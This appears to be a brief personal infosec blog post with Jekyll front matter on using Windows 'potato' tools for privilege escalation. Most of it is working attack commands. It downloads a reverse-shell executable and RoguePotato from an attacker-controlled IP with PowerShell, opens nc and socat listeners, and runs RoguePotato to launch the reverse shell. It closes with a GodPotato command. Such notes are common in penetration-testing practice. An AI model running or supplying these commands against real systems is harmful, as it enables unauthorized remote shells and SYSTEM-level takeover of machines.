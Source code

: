 ```yaml
---
layout: post
title: Potatoes
titledate: 10/17/23
tags: ["infosec","offsec","potatoes", "privesc", "powershell"]
---
```


There are many potatoes that can be used for privesc, and i'll include how i've used them below

#### rogue

i copy the potato along with a reverse shell to the target exec directory

    PS> iwr -uri http://192.168.45.215:8000/rs443.exe -Outfile rs443.exe
    PS> iwr -uri http://192.168.45.215:8000/RoguePotato.exe -Outfile rogue.exe

open up a nc listener

    nc -nlvp 443

    socat tcp-listen:135,reuseaddr,fork tcp:192.168.221.247:9999

on the target shell

    .\rogue.exe -r 192.168.45.215 -e "C:\Users\jim\Downloads\rs443.exe" -l 9999

#### God

    GodPotato -cmd "cmd /c whoami"